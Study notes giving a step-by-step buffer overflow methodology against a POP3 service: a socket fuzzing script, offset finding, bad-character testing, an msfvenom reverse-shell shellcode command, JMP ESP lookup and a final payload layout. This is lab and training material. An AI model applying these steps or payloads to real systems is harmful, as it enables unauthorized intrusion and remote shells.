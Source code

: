 #BUFFER OVERFLOW

## 1- SPIKING

generic_send_tcp 10.10.10.10 9999 stats.spk 0 0

{stats.spk}
s_readline();
s_string("STATS );
s_string_variable("0")

RESULT: SEGMENTATION FAULT

## 2- TEST SIZES
``` 
#!/usr/bin/python
import socket
# Script for Fuzzing SLMail POP3 Service's PASS Parameter
counter = 100
while counter <= 3500:
	try:
		buffer = "A" * counter

		print "Fuzzing PASS with %s bytes" % len(buffer)

		s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.settimeout(30)
		connect=s.connect(('192.168.1.200',110))
		s.recv(1024)

		s.send('USER test\r\n')
		s.recv(1024)
	
		s.send('PASS ' + buffer + '\r\n')
	
		s.send('QUIT\r\n')
		s.close()
		counter = counter + 200
	except socket.timeout:
		print "\nCrash Byte of PASS Parameter: %s" %  (len(buffer)-200)
		exit(0)

```

RESULT: EIP OVERWRITE WITH "A" (41414141)

## 3- LOCATE OFFSET 

{PATTERN_CREATE}
`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <length>`

RESULT: EIP VALUE

{PATTERN_OFFSET}
`/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l <length> -q [EIP VALUE REVERSED]`
  
RESULT: OFFSET

## 4- VERIFY EIP CONTROL

PAYLOAD = A*[OFFSET] + B*4 + C*[FILL VALUE]

RESULT: EIP OVERWRITE WITH "B" = 42424242

## 5- SHELLCODE SPACE

TEST SOME LENGTHS FOR "C":

PAYLOAD = A*[OFFSET] + B*4 + C*[FILL SIZE 1] ==> EIP IS NOT 42424242

PAYLOAD = A*[OFFSET] + B*4 + C*[FILL SIZE 2] ==> EIP 424242

RESULT: FILL SIZE

## 6- BADCHARS

"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"

"A"*OFFSET + "B"*4 + BADCHARS + C*[FILL SIZE]

## 7- GENERATE SHELLCODE

msfvenom -p windows/shell/reverse_tcp LPORT=4444 LHOST=10.10.10.10 -b "\x00\x0a\x0d\x20" –e x86/shikata_ga_nai -f c

RESULT: SHELLCODE

## 8- LOCATE JMP

- !mona modules (look for modules without protection)

- NASM
1. usr/share/metasploit-framework/tools/exploit/nasm_shell.rb (displays nasm prompt)
2. jmp esp
==>FFE4

!mona find -s '\xff\xe4' -m module.dll

RESULT: JMP ESP ADRESS

## 9- COMPOSE FINAL EXPLOIT

payload = JUNK + RET_ADRESS + NOPS + SHELLCODE + JUNK

payload = "\x41" * <length> + <ret_address> + "\x90" * 16 + <shellcode> + "\x43" * <remaining_length>
